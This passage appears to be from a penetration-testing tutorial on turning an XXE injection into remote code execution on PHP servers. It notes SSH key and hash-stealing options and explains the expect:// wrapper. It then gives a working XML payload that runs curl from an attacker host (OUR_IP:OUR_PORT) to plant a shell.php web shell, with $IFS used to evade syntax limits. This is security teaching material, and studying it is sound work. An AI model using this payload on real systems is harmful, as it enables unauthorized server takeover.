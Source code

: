 In addition to reading local files, we may be able to gain code execution over the remote server. The easiest method would be to look for `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web applications, by making a call to our server.

If these do not work, we may still be able to execute commands on PHP-based web applications through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

If the XXE directly prints its output, then we can execute basic commands as `expect://id`, and the page should print the command output. However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into an RCE is by implanting a reverse shell into the target server. For example:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP:OUR_PORT/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
> Note: We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.